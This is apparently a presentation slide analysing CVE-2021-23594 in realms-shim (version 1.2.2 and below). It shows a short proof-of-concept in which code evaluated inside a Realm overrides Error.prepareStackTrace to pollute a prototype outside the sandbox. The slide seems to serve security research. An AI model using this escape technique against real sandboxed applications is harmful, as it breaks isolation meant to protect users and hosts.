

# Qualitative Analysis Cont.: CVE-2021-23594
Realms-shim =< 1.2.2
1:  let realm = Realm.makeRootRealm();
2:  try {
3:     realm.evaluate(`Error.prepareStackTrace=
4:          function(error,  stackTrace){
5:         stackTrace.__proto__.__proto__.polluted = "success";
6:    }; x;` );
7:  } catch(e) {
8:    }
9: console.log(polluted); // output: 'success'
'ERR_UNHANDLED_REJECTION'
DEPRECATED

Writing outside through error stack

27